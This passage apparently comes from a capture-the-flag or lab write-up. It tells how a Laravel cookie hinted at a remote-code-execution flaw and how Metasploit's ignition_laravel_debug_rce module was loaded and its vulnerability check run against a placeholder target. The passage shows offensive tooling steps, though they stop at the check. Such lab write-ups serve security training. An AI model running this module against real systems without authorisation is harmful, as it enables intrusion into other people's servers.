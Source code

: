 ![cookie](/assets/AOCD9/cookie.png)

googling we can find that the application that uses that set-cookie could be vulnerable to remote code execution.  The easiest way to verify if the application is vulnerable is to use Metasploit to check.  So we start up Metasploit with this command

```console
msfconsole
```

Once Metasploit loads we can search for the applicaiton 

```console
msf6 > search laravel
```

then we load the module with the use command

```console
msf6 > use multi/php/ignition_laravel_debug_rce
```

now we can run the check command


```console
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=TargtIPAddress
```

